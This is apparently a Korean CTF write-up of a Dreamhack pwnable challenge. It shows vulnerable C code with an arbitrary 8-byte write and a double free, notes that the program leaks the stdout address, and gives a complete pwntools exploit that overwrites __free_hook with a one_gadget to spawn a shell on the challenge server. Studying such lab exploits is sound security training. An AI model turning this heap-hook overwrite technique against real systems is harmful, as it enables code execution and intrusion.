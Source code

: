 ```c
    scanf("%ld", &size);

    ptr = malloc(size);

    printf("Data: ");
    read(0, ptr, size);

    *(long *)*ptr = *(ptr+1);

    free(ptr);
    free(ptr);

    system("/bin/sh");
    return 0;
}
```

### Vulnerability scanning

- `checksec`
    <p align="center">
		<a href="/assets/images/TIL220805/Untitled (2).png">
			<img src="/assets/images/TIL220805/Untitled (2).png" width="600">
    	</a>
	</p>
- `stdout`**의 주소가 노출**된다.
- `*(long *)*ptr = *(ptr+1);` → `malloc`으로 할당된 메모리의 **첫 번째 8 byte에 적혀 있는 부분의 주소로 두 번째 8 byte에 적혀 있는 값을 작성**한다. ⇒ **원하는 주소에 원하는 8 byte의 값을 작성할 수 있다. (key point)**
- 프로그램의 마지막에 `system("/bin/sh")`가 있다. 일반적인 프로그램의 흐름으로는 `free`**가 두 번 실행되며 error가 발생**하기 때문에 실제로는 실행되지 않는다.

### Exploit

one_gadget 찾는 과정은 위와 동일하다.

```python
from pwn import *

p = remote("host3.dreamhack.games", 21497)
libc = ELF("./libc.so.6")

p.recvuntil("stdout: ")
libc_base = int(p.recvline()[:-1], 16) - libc.symbols["_IO_2_1_stdout_"]
free_hook = libc_base + libc.symbols["__free_hook"]
og = libc_base + 0x4f302

p.recvuntil("Size: ")
p.sendline("16")

p.recvuntil("Data: ")
payload = p64(free_hook) + p64(og)
p.sendline(payload)

p.interactive()
```
